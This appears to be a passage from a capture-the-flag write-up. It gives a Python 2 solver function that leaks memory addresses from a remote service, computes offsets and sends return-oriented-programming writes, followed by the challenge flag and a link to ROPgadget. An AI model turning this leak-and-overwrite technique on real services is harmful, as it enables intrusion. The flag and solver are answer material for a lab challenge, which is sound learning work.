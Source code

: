 ```python
def rop(s):
    for i in range(12):
        print '[!] target: %s' % hex(payloads[i])
        s.send(addrs[i]+'\n')
        mleak = int(s.recv(1024))
        print '[!] leak: %s' % hex(mleak)
        offset = payloads[i]-mleak
        print '[!] offset: %d' % offset
        g = '%s%+d\n' % (addrs[i], offset)
        print '[+] send: %s' % g
        s.send(g)
        print '==> %s\n=================' % hex(int(s.recv(1024)))
    s.send('\n')
```

## Flag

```text
SECPROG{C:\Windows\System32\calc.exe}
```

## References

-  [JonathanSalwan/ROPgadget][1]

[1]: https://github.com/JonathanSalwan/ROPgadget
